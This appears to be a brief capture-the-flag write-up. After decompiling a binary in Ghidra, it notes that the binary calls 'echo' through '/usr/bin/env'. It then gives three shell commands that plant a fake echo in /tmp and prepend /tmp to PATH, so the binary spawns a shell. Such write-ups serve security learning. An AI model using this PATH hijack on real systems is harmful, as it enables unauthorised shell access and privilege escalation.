

opening the binary in ghidra give us this pseudo C code :

the binary is executing the `/usr/bin/env echo ...` which mean env use the $PATH env variable to search for the echo binary.
we can just replace the echo builtin by our echo programme by putting it in front of the PATH :
`echo sh > /tmp/echo`
`chmod +x /tmp/echo`
`export PATH="/tmp:$PATH"`

when env will search for echo it will find first /tmp/echo which execute a shell.
